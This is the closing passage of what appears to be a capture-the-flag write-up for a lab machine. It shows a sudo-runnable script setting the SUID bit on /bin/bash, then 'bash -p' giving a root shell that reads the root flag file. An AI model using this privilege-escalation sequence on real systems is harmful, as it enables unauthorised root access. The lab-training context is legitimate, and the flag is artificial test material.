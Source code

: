 Testing the theory.

```
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.6G
System load average:  0.05, 0.07, 0.09
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
dvir@headless:/tmp$ 
```

# Root Shell Obtained

After executing `syscheck` with sudo I checked the permissions on bash. It worked. `bash -p` was used to run bash with preserved root permissions. Root flag captured.

```
dvir@headless:/tmp$ bash -p
bash-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
bash-5.2# cat /root/root.txt
d8fd3136f8b7fcc61f7aee7091901f45
bash-5.2# 
```
